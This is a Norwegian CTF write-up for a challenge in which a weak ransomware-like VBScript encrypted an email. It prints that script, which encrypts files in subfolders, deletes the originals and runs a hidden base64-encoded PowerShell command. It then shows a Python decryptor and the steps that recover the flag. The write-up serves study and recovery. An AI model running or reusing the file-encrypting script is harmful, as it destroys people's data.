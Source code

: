 # Encryption Event
En gøy CTF-oppgave der man måtte forstå og lære om `VBScript` for a decryptere en epost som var kryptert av en dårlig implementert `ransomware`-aktig script på nett.

## Oppgave av Vealending
Threat actors these days have no shame. They steal code, and barely know how to use it.
Not only that, but they are so old fashioned that they are heavily reliant on VBScript for important things like crypto.


Unfortunately, they were still skilled enough to manage to encrypt our client's important file.
I refuse to believe they did a good job. Are you able to retrieve the contents of the file?


(WARNING - Place the files in a separate, empty folder. It will crawl subdirectories and encrypt the files if you accidentally run it.)

## Løsning
Vi prøver selvfølgelig å forstå hva det fordømte VBS-programmet prøver å gjøre. Her kan `chatGPT` være nyttig. Vi kutter ut deler av `vbs` programmet der det er nødvendig.
```html
<job>
  <script language="VBScript" src="aes.vbs"/>
  <script language="VBScript">

    Set fso = CreateObject("Scripting.FileSystemObject")
    set shell = CreateObject("Wscript.Shell")
    Set stream = CreateObject("ADODB.Stream")

    For Each folder In fso.GetFolder(".").SubFolders
      For Each file in fso.GetFolder(folder).Files

      Set src = fso.OpenTextFile(file, 1)
      Set dst = fso.OpenTextFile(file & ".enc", 8, -1)

      Do Until src.AtEndOfStream
        rax = shell.Run("powershell.exe -windowstyle hidden -e JABzAGUAZQBkACAAPQAgAEcAZQB0AC0AUgBhAG4AZABvAG0AIAA7ACAALgBcAGcAZQBuAGUAcgBhAHQAZQAuAGUAeABlACAAJABzAGUAZQBkACAAfAAgAE8AdQB0AC0ARgBpAGwAZQAgAC0ARQBuAGMAbwBkAGkAbgBnACAAYQBzAGMAaQBpACAALQBOAG8ATgBlAHcAbABpAG4AZQAgAGEAZQBzAF8AYQBuAGQAXwBoAG0AYQBjAC4AdAB4AHQA", 0, True)
        bin = FileToBytes("aes_and_hmac.txt")
        fso.DeleteFile("aes_and_hmac.txt")
        aesKey = B64Encode(TrimBytes(bin, 0, 32))
        macKey = B64Encode(TrimBytes(bin, 32, 32))
        dst.WriteLine (Encrypt(src.ReadLine(), aesKey, macKey) & ":" & aesKey)  
      Loop

      src.Close()
      dst.Close()
      fso.DeleteFile(file)
    
      Next
    Next

  </script>
</job>
```
```vbs
Function Encrypt(plaintext, aesKey, macKey)
    aes.GenerateIV()
    aesKeyBytes = B64Decode(aesKey)
    macKeyBytes = B64Decode(macKey)
    Set aesEnc = aes.CreateEncryptor_2((aesKeyBytes), aes.IV)
    plainBytes = utf8.GetBytes_4(plaintext)
    cipherBytes = aesEnc.TransformFinalBlock((plainBytes), 0, LenB(plainBytes))
    macBytes = ComputeMAC(ConcatBytes(aes.IV, cipherBytes), macKeyBytes)
    Encrypt = B64Encode(macBytes) & ":" & B64Encode(aes.IV) & ":" & B64Encode(cipherBytes)
End Function
```
Her kan vi forstå at hver linje i den krypterte eposten gir oss informasjon om `macBytes`, `aes.IV`, `cipherBytes`, og `aesKey`. For å dekryptere må vi reversere prosessen og da må vi finne ut `macKey`.
Ta det som en svart boks og med hjelp av `chatGPT` og litt redigering får vi skriptet som også er løsningen:
```python
from Crypto.Cipher import AES
import base64
import hmac
import hashlib

with open('Documents/important_email.eml.enc', 'r') as f:
    for line in f:
        encrypted_text = line
# split the encrypted text into its components
        mac_bytes, aes_iv, cipher_bytes, aes_key = encrypted_text.split(":")

# base64 decode the components
        mac_bytes = base64.b64decode(mac_bytes)
        aes_iv = base64.b64decode(aes_iv)
        cipher_bytes = base64.b64decode(cipher_bytes)
        aes_key = base64.b64decode(aes_key)

# compute the mac key from the aes key and aes iv
        mac_key = hmac.new(aes_key, msg=aes_iv, digestmod=hashlib.sha256).digest()

# decrypt the cipher bytes using aes-128-cbc mode
        cipher = AES.new(aes_key, AES.MODE_CBC, iv=aes_iv)
        plaintext = cipher.decrypt(cipher_bytes)

# remove the padding from the plaintext
        padding_length = plaintext[-1]
        plaintext = plaintext[:-padding_length]

# decode the plaintext to a string
        plaintext = plaintext.decode("utf-8")

# print the decrypted plaintext
        print(plaintext)
```
```console
sage decrypt.py
MIME-Version: 1.0
Date: Mon, 13 Mar 2023 21:58:30 +0100
From: Vealending <Vealending@protonmail.com>
Subject: Implementing backups?
Thread-Topic: Implementing backups?
Message-ID:
 <GF36kOxJsYZeZoYV3yITgynFqi0JQt9enmIW_120nFFMPRfaMWE62Mx-MCcrHdqRATuYhMhiecUBdzha1xkVvKrMZwKvbEyoDcSTqywc5Qc=@protonmail.com>
To: Cyberlandslaget <kontakt@cyberlandslaget.no>
Content-Type: multipart/related;
	boundary="_1F214529-CDDB-4D6F-A725-24FAF58B7989_"

--_1F214529-CDDB-4D6F-A725-24FAF58B7989_
Content-Transfer-Encoding: quoted-printable
Content-Type: text/html; charset="utf-8"

<html><head>
<meta http-equiv=3D"Content-Type" content=3D"text/html; charset=3Dutf-8"></=
head><body><div style=3D"font-family: Arial, sans-serif; font-size: 14px;">=
</div><span style=3D"font-size:15px;font-family:&quot;Segoe UI&quot;, &quot=
;Segoe UI Web (West European)&quot;, &quot;Segoe UI&quot;, -apple-system, B=
```
```console
Content-Type: image/png; name="image.png"
Content-ID: <7b01aaef@protonmail.com>
Content-Transfer-Encoding: base64
Content-Disposition: inline; filename="image.png"

iVBORw0KGgoAAAANSUhEUgAAAfIAAAMRCAYAAAAX3jTVAAAAAXNSR0IArs4c6QAAAARnQU1BAACx
jwv8YQUAAAAJcEhZcwAADsIAAA7CARUoSoAAAP+lSURBVHhe7J0FgBxF1sffZt3i7u4KgQDBPYe7
Hi6Hc3DIcdghBx+Hu7sf7sElBEIgHuLE3bPZrO989audN3SGWd9sssv7Qad7qqurqnu76l+vrONC
```
Ved å kjøre cyberchef file-detection på teksten får vi.
```console
File type:   Portable Network Graphics image (under Base64)
Extension:   B64
MIME type:   application/octet-stream
```
Vi må altså ta ut det relevante b64-encodet bildet og omgjøre til noe som er mer brukelig. Jeg brukte python for dette. 

```python
import base64

with open("image.b64", "r") as f:
    encoded_data = f.read()

decoded_data = base64.b64decode(encoded_data)

with open("image.png", "wb") as f:
    f.write(decoded_data)
```
Flagget finner altså da
![intro](https://github.com/stangeqwq/CTF/blob/main/images/encryptionevent.png)


